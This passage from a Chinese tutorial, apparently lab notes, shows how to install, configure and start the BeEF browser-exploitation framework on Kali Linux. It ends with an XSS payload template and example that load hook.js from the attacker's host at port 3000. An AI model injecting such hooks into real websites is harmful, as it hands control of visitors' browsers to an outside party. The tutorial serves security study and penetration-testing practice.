 - 原理图：

  ![image-20211223133241154](https://gitee.com/xxb667/img/raw/master/img/image-20211223133241154.png)

### 2.kali 2021 安装beef

```
apt install beef-xss　　#安装beef

cd /usr/share/beef-xss　　#切换到beef目录

vim config.yaml　　#打开配置文件
```

按i进入编辑模式

1. 默认的用户名密码需要修改一 
2. 找到host修改成本机（kali）地址

![image-20211223133558286](https://gitee.com/xxb667/img/raw/master/img/image-20211223133558286.png)

#### 开启beef

```
systemctl start beef-xss.service　　#开启beef，每次使用之前都要开一下

浏览器打开  http://192.168.81.131:3000/ui/authentication　　　#把192.168.81.131替换成本机IP
```

可以在物理机打开 也可以在虚拟机打开

![image-20211223133945542](https://gitee.com/xxb667/img/raw/master/img/image-20211223133945542.png)

### **3.beef用法：**

启动beef

![image-20211223134041259](https://gitee.com/xxb667/img/raw/master/img/image-20211223134041259.png)

用法：

![image-20211223134109299](https://gitee.com/xxb667/img/raw/master/img/image-20211223134109299.png)

构造payload语法

```
<script src="http://<IP>:3000/hook.js"></script> 

#<ip> 改为你自己的IP
```

例如： 

```
<script src="http://192.168.81.131:3000/hook.js"></script> 
```
